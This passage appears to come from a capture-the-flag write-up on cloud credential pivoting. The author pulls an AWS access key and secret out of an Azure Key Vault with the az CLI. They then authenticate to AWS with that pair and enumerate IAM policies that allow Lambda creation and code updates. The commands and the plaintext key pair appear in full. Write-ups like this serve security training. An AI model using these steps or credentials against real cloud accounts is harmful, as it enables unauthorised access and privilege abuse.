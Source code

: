 The source code appears to be getting credentials from Azure Key Vault which would be used to connect to invoke an AWS lambda function. We can try to retrieve the details via the cli. 

```bash
bash-5.1# az keyvault secret show --vault-name olympurr-aws -n AKIA5G4XMRW7TLT6XD7R
{
  "attributes": {
    "created": "2022-11-18T03:25:20+00:00",
    "enabled": true,
    "expires": null,
    "notBefore": null,
    "recoveryLevel": "CustomizedRecoverable+Purgeable",
    "updated": "2022-11-18T03:25:20+00:00"
  },
  "contentType": "",
  "id": "https://olympurr-aws.vault.azure.net/secrets/AKIA5G4XMRW7TLT6XD7R/05c534380f7b480d90dcaffc7364bce6",
  "kid": null,
  "managed": null,
  "name": "AKIA5G4XMRW7TLT6XD7R",
  "tags": {},
  "value": "fgQdSIETJp/yBKwWbmf2SprGa2eXWyqgkeeIdWtL"
}
```

With this can switch over to AWS and log in with `AKIA5G4XMRW7TLT6XD7R:fgQdSIETJp/yBKwWbmf2SprGa2eXWyqgkeeIdWtL`. 

``` bash
$ aws sts get-caller-identity --profile stf
{
    "Account": "908166204863", 
    "UserId": "AIDA5G4XMRW7UAWT26Q6Q", 
    "Arn": "arn:aws:iam::908166204863:user/azure_user"
}
```

From this point on, it's pretty much a repeat of TISC which is just, List attached user -> List policy version to figure out account perms.

```bash
$ aws iam list-attached-user-policies --user-name azure_user --profile stf
{
    "AttachedPolicies": [
        ...
        {
            "PolicyName": "azure-policy-extended", 
            "PolicyArn": "arn:aws:iam::908166204863:policy/azure-policy-extended"
        }, 
        ...
    ]
}
```
```bash
$ aws iam get-policy-version --policy-arn arn:aws:iam::908166204863:policy/azure-policy-extended --version-id v1 --profile stf
{
    "PolicyVersion": {
                ...
                    "Action": [
                        "lambda:Invoke*", 
                        "lambda:ListFunctions", 
                        "lambda:CreateFunction", 
                        "logs:DescribeLogGroups", 
                        "logs:DescribeLogStreams", 
                        "logs:GetLogEvents", 
                        "lambda:UpdateFunctionCode"
```